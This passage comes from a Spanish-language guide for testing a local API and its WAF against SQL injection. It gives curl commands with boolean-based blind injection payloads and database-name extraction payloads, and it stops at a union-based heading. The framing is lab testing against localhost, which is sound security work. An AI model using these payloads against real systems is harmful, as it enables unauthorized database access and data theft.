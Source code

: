 **¿Qué observar?**
- ✅ Respuesta normal (200 OK)
- ✅ Tiempo de respuesta típico
- ✅ Estructura de respuesta JSON

#### 1.2 Probar Caracteres Especiales Simples
```bash
# Probar caracteres que podrían causar errores
curl "http://localhost:3000/api/users/search?q='"
curl "http://localhost:3000/api/users/search?q=\""
curl "http://localhost:3000/api/users/search?q=;"
```

**¿Qué observar?**
- 🚨 ¿Se muestra algún error de base de datos?
- 🚨 ¿Cambia el tiempo de respuesta?
- ✅ ¿El WAF bloquea el request (403)?

### Fase 2: Testing de Vulnerabilidades SQL

#### 2.1 Boolean-Based Blind SQL Injection

**Concepto**: Usar condiciones que devuelven TRUE o FALSE para extraer información.

```bash
# Test básico de condición verdadera
curl "http://localhost:3000/api/users?id=1 AND 1=1"

# Test básico de condición falsa  
curl "http://localhost:3000/api/users?id=1 AND 1=2"
```

**¿Qué observar?**
- 🚨 ¿Las respuestas son diferentes entre 1=1 y 1=2?
- 🚨 ¿La primera devuelve datos y la segunda no?
- ✅ ¿Ambas son bloqueadas por el WAF?

**Payloads progresivos para probar:**
```bash
# Nivel 1: Básico
curl "http://localhost:3000/api/users?id=1' AND '1'='1"
curl "http://localhost:3000/api/users?id=1' AND '1'='2"

# Nivel 2: Con comentarios
curl "http://localhost:3000/api/users?id=1' AND 1=1--"
curl "http://localhost:3000/api/users?id=1' AND 1=2--"

# Nivel 3: Extracción de información
curl "http://localhost:3000/api/users?id=1' AND LENGTH(DATABASE())>5--"
curl "http://localhost:3000/api/users?id=1' AND SUBSTRING(DATABASE(),1,1)='c'--"
```

#### 2.2 Union-Based SQL Injection

**Concepto**: Usar UNION para combinar resultados y extraer datos de otras tablas.
